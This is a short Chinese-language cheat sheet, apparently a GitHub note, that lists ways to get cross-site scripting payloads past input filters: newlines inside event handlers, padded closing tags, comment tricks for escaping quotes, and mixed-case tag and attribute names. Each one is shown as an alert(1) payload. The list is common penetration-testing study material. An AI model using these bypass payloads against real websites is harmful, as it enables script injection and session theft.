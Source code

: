 换行能够触发

```
<img src=x onerror%0a%0d=%0a%0dalert(1) />
```

闭合标签结尾多`空格`或`\`也能触发

```
<script        >alert(1)</script///>
```

javascript存在注释,如果是标签拼接的话可以注释掉多余的"，有些bypass是为了从"中逃逸出来的

```
\\ 和 \**\
```

javascript的标签和属性和事件名大小写不敏感

```
<imG sRc=x OnerroR=alert(1) />
```



------

参考文章：

<https://www.cnblogs.com/xiaozi/p/5588099.html>

<https://www.leavesongs.com/PENETRATION/xss-collect.html>

